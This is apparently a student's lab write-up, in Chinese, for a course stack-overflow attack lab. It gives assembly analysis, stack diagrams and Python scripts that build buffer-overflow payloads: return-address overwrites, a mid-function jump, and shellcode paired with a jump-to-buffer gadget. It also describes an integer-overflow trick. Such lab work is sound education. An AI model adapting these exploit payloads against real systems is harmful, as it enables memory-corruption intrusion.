



# 栈溢出攻击实验

姓名：邢添珵

学号：2024202862

## 题目解决思路


### Problem 1: 
- **分析**：

先看看这题对应的 *C* 代码：

```c
void func(char *s) {
  char buffer[8];
  strcpy(buffer, s);
}

void func1() {
  puts("Yes!I like ICS!");
  exit(0);
}

int main(int argc, char *argv[]) {
    char buf[256];

    puts("Do you like ICS?");

    if (argc != 2) {
        return 1;
    }

    // 一些分支和提示信息
}
```

`func` 在栈上开辟的 *buffer* 数组大小为 `8` 字节，但是 *payload* 最多可以有 `256` 字节，于是可以攻击。

根据汇编代码画出栈区示意图：

```nasm
High
    +----------------------+
    |    return address    |  
    +----------------------+
    |      saved %rbp      |
    +----------------------+  <--- rbp
    |                      |
    |   buffer (8 bytes)   |  <--- rbp - 0x8
    +----------------------+
    |                      |
    |   local variables    |  <--- rbp - 0x18 
    |                      |
    +----------------------+  <--- rsp = rbp - 0x20
Low
```

于是得到攻击方案：构造 `16` 字节的 *padding*，然后写入 `func1` 的地址作为新返回地址。这样函数执行后就可以跳转到 `func1` 并输出 `Yes!I like ICS!` 。

- **解决方案**：

代码如下：

``` python
padding = b"a" * 16                                 
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" # func1 地址
payload = padding + func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```

- **结果**：


### Problem 2:
- **分析**：

把几个核心的函数翻译成 *C* 代码：

```c
void func(char *a) {
    char buffer[8]; 
    return memcpy(buffer, a, 0x38);
}

void func2(int a) {
    if (a != 1016) {
        printf("I think that you should give me the right number!\n");
        exit(0);
    }
    printf("Yes!I like ICS!\n");
    exit(0);
}

int main(int argc, char **argv) {
    char payload[268];
    // 和上一题差不多，核心部分也是从 argv[1] 读取字符串到 payload

    printf("Do you like ICS?\n");
    if (argc == 2) {
        // 一些分支
    }
}
```

思路和第一题是类似的。*payload* 的最大长度是 `268` 字节，但是 *buffer* 只有 `8` 字节。

栈帧示意图为：

```nasm
High
    +----------------------+
    |    return address    |  
    +----------------------+
    |      saved %rbp      |
    +----------------------+  <--- rbp
    |                      |
    |   buffer (8 bytes)   |  <--- rbp - 0x8
    +----------------------+
    |                      |
    |   local variables    |  <--- rbp - 0x18 
    |                      |
    +----------------------+  <--- rsp = rbp - 0x20
Low
```

于是我很自信地沿用了上一题的方案，结果发现错了。然后注意到 `func2` 要求参数值为 `1016` 才能输出答案。但是如果直接让 `main` 函数跳转到 `func2` ，那么此时寄存器 `%rdi` 中的值是垃圾，必然报错。于是我们想到，那直接跳转到输出正确答案的分支是不是就可以了呢？

我们知道汇编代码

```nasm
40124c:	48 8d 05 e8 0d 00 00 	lea    0xde8(%rip),%rax
401253:	48 89 c7             	mov    %rax,%rdi
401256:	b8 00 00 00 00       	mov    $0x0,%eax
40125b:	e8 70 fe ff ff       	call   4010d0 <printf@plt>
```

的功能是输出 `"Yes!I like ICS!\n"` ，而 `call` 指令的本质是
```nasm
push rip_next
jmp  target
```
于是我们直接 `call` 到 *0x40124c* 处即可输出正确答案。

- **解决方案**：

```python
padding = b"a" * 16
func2_phase2 = b"\x4c\x12\x40\x00\x00\x00\x00\x00"
payload = padding + func2_phase2
with open("ans.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans.txt")
```

- **结果**：




### Problem 3: 
- **分析**：

首先将核心函数转换为 *C* 代码：
```c
void func1(int num) {
    if (num != 0x72) {
        puts("Error answer!");
        exit(0);
    }
    puts("Your lucky number is 114"); 
}

void func(char *input) {
    char buffer[32]; // rbp - 0x20
    // 漏洞点：buffer只有32字节，但拷贝了64 (0x40) 字节
    memcpy(buffer, input, 0x40); 
    // ...
}
```

栈帧示意图为：

```nasm
High
    +----------------------+
    |    return address    |  <--- target
    +----------------------+       
    |      saved %rbp      |
    +----------------------+  <--- rbp
    |                      |
    |   buffer (32 bytes)  |  <--- rsi = rbp - 0x20 
    |                      |     
    +----------------------+
    |                      |     
    |                      |  <--- rsp = rbp - 0x30 
    +----------------------+
Low
```
我们的目标是执行 `func1` ，但一方面，若直接跳转到 `func1` 的入口，由于寄存器 `%edi` 未被预先设置为 *114* ，代码中的检查指令 `cmpl $0x72,-0x44(%rbp)` 会导致校验失败而直接退出；另一方面，若为了绕过检查而强行跳转到函数中间的字符串生成部分，程序会立即崩溃，因为该部分指令（如 `mov %rax,-0x40(%rbp)`）依赖 `%rbp` 寄存器来定位栈上的局部变量 `buffer` ，然而我们必须覆盖栈上的 `saved %rbp`，由于 *ASLR* 存在，我们无从得知一个可以访问的栈区地址，只能填入无效的垃圾数据，这就导致 `%rbp` 指向错误的内存区域，引发程序崩溃。因此我们需要执行一段自定义的 `shellcode` 来设置参数并调用函数。

首先准备参数，考虑汇编代码
```nasm
<shellcode>:       bf 72 00 00 00          mov    $0x72,%edi
<shellcode+0x5>:   b8 16 12 40 00          mov    $0x401216,%eax
<shellcode+0xa>:   ff d0                   call   *%rax
```

于是确定了 *shellcode* 。

接下来解决栈随机化的问题。发现有一个非常神奇的函数 `jmp_xs`：
```nasm
40133c:	48 8b 05 cd 21 00 00 	mov    0x21cd(%rip),%rax    
401343:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
401347:	48 83 45 f8 10       	addq   $0x10,-0x8(%rbp)
40134c:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
401350:	ff e0                	jmp    *%rax            
```

可以发现，`jmp_xs` 调用了一个 `saved_rsp + 0x10` 位置的代码，而 `saved_rsp` 在 `func` 函数中被保存过，同时我们的 `buffer` 的起始位置就是 `saved_rsp + 0x10`。~~(这真是太棒了！)~~ 总而言之，`jmp_xs` 的功能是跳转到 `buffer` 的起始位置 ( `rbp-0x20` )。

于是思路就很清晰了：我们只需要在 `buffer` 开头放置 `shellcode`，然后填充垃圾数据直到 *40* 字节，最后将 `func` 的返回地址覆盖为 `jmp_xs` 的地址即可。


- **解决方案**：

```python
shellcode = b"\xbf\x72\x00\x00\x00\xb8\x16\x12\x40\x00\xff\xd0"
padding_len = 40 - len(shellcode)
padding = b"A" * padding_len
jmp_xs_addr = 0x401334
ret_addr = b"\x34\x13\x40\x00\x00\x00\x00\x00"
payload = shellcode + padding + ret_addr

with open("ans.txt", "wb") as f:
    f.write(payload)

print(f"Payload (len={len(payload)}) written to ans.txt")
```

- **结果**：



### Problem 4: 
- **分析**：

注意到函数开头部分有

```nasm
136c:	64 48 8b 04 25 28 00 	mov    %fs:0x28,%rax
1373:	00 00 
1375:	48 89 45 f8          	mov    %rax,-0x8(%rbp)
```
首先用 *%fs* 段寄存器指向的地址偏移 *0x28* 的位置加载到栈上 *%rbp - 8* 的位置上。在 *Linux* 系统中，*%fs* 通常用于访问线程局部存储，而由于栈随机化的存在，这个地址也是随机的。对应地，在函数结尾部分有：

```nasm
140a:	48 8b 45 f8          	mov    -0x8(%rbp),%rax
140e:	64 48 2b 04 25 28 00 	sub    %fs:0x28,%rax
1415:	00 00 
1417:	74 05                	je     141e <func+0xc1>
1419:	e8 b2 fc ff ff       	call   10d0 <__stack_chk_fail@plt>
141e:	c9                   	leave
141f:	c3                   	ret
```

这段代码去除了之前存在栈中的 *canary* 并和原值做了一个比较，如果相同则正常返回，否则调用 `__stack_chk_fail` ，抛出栈异常错误。这一套流程就实现了所谓的 *canary* 保护。

还是先将汇编代码翻译成对应的 *C* 代码：

```c
void func1(void) {
    // __readfsqword 是栈保护（canary）
    puts("great! I will give you great scores");
}

void func(unsigned int money) {
    int v2 = money;

    printf("your money is %u\n", money);

    if (money >= 0xFFFFFFFE) {
        for (unsigned int i = 0; i < 0xFFFFFFFE; i++)
            v2--;

        if (v2 == 1 && money == -1) {
            func1();   
            exit(0);
        }

        puts("No! I will let you fail!");
    } else {
        puts("your money is not enough!");
    }
}

int main(int argc, char *argv[]) {
    unsigned int v3[4];
    char name_buf[45];   
    char like_buf[32];
    char tmp_buf[56];

    v3[1] = -1;
    v3[2] = -1;
    v3[3] = -200000096;

    puts("hi please tell me what is your name?");

    scanf("%s", name_buf + 13);

    strcpy(name_buf, "pakagxuwquoe");
    caesar_decrypt(name_buf, 12);

    puts("hi! do you like ics?");

    scanf("%s", like_buf);

    strcpy(tmp_buf, "urkagsuhqyqkgmzetuuiuxxsuhqkagsaapeoadqe");
    caesar_decrypt(tmp_buf, 12);

    puts("if you give me enough yuanshi, I will let you pass!");

    while (1) {
        scanf("%d", &v3[0]);   
        func(v3[0]);
    }
}
```

可以发现，主函数 `main` 中前段关于 `name_buf` 和 `like_buf` 的输入、`strcpy` 以及凯撒解密操作实际上一点用都没有。整个程序唯一能够输出通关信息 `great! I will give you great scores` 的入口位于 `func1` 函数中，而仅有 `func` 函数调用了 `func1` 。

要使 `func` 成功调用 `func1` ，必须同时满足两个条件：`v2 == 1` 且 `money == -1` 。分析 `func(unsigned int money)` 的代码逻辑可以发现：

- 参数 `money` 类型为 `unsigned int`，而局部变量 `v2` 被初始化为 `money` ，但类型为 `int`。

- `money` 的值直接来源于主函数中最后一次 `scanf("%d", &v3[0])` 的输入。

若我们在最后阶段输入 *-1* ：`scanf` 读入 *-1* ，在内存中补码为 *0xFFFFFFFF* 。对于 `unsigned int money` ，该值被解释为最大无符号整数，满足 `money >= 0xFFFFFFFE` 的分支条件，同时也满足 `money == -1`（无符号比较时常量 *-1* 被转换为 *0xFFFFFFFF* ）的最终检查条件。`v2` 作为 `int` 类型，初始值为 `-1` 。程序进入循环 `for ( unsigned int i = 0; i < 0xFFFFFFFE; i++) v2--;` 。此处循环执行了 *0xFFFFFFFE* 次（即 $2^{32}-2$ 次）自减操作。循环结束后 `v2` 等于 `1` ,且 `money` 依然保持 *(unsigned int) -1* ( *0xFFFFFFFF* )。 条件 `if (v2 == 1 && money == -1)` 成立，于是调用 `func1` 并输出正确答案。

综上所述，前面两个阶段输入什么并不重要，只要最后一阶段输入 *-1* 即可通过。

- **解决方案**：本题不需要 `payload` 。

- **结果**：



## 思考与总结

个人认为这是一个很棒的 `lab` 。这几道题本身并不难，也很有趣味性。这几道题的思路是一脉相承的，但是思维难度逐渐加深，让我很好地巩固了汇编与栈溢出的基础知识，也了解了基础的攻击与防御手段。同时，有些题目 (比如第三题) 显然有不止一种解法，我在选取最优方案的过程中也收获了很多经验与乐趣。但几道题目的难度似乎还是略低 ~~(这似乎是好事啊！)~~，如果能有一些与栈溢出攻击有关的拓展知识加入题目，或者设计一些更复杂的函数就更好了。

总而言之，这是一个很棒的 `lab` 。赞美助教！

## 参考资料

- [更适合北大宝宝体质的 Attack Lab 踩坑记](https://arthals.ink/blog/attack-lab)

> `PKU` 的 `AttackLab`，最开始的时候阅读这篇博客做了一个简单的入门 (虽然与我们的 `AttackLab` 没有太大关系)

- [栈溢出原理](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/stackoverflow-basic/)

> 一些 *ROP* 的基础知识，对于 `Problem3` 有一定帮助

